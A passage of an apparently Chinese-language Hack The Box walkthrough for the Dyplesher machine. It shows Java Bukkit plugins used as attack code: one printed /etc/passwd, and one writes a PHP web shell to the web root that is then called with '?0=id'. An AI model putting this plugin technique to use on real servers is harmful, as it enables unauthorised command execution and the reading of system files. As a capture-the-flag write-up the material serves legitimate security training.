 ```
        `}` catch (IOException e) `{`
            e.printStackTrace();
        `}`
    `}`
    @Override
    public void onDisable() `{`
        getLogger().info("onDisable is called!");
    `}`
`}`
```

在Console里就打印出了服务器上/etc/passwd文件的内容：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01489a694f513196ce.png)



## 上传shell

写入shell：

```
package htb.dyplesher.shellplug;

import org.bukkit.plugin.java.JavaPlugin;

import java.io.FileWriter;

public class shellplug extends JavaPlugin `{`

    @Override
    public void onEnable() `{`
        getLogger().info("onEnable is called!");

        try `{`
            FileWriter fw = new FileWriter("/var/www/test/cmd.php");
            fw.write("&lt;?php echo shell_exec($_GET[0]); ?&gt;");
            fw.close();
        `}` catch (Exception e) `{`
            getLogger().info(e.toString());
        `}`
    `}`
    @Override
    public void onDisable() `{`
        getLogger().info("onDisable is called!");
    `}`
`}`
```

访问 [http://test.dyplesher.htb/cmd.php?0=id](http://test.dyplesher.htb/cmd.php?0=id) :

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01798cac9e29a4618d.png)
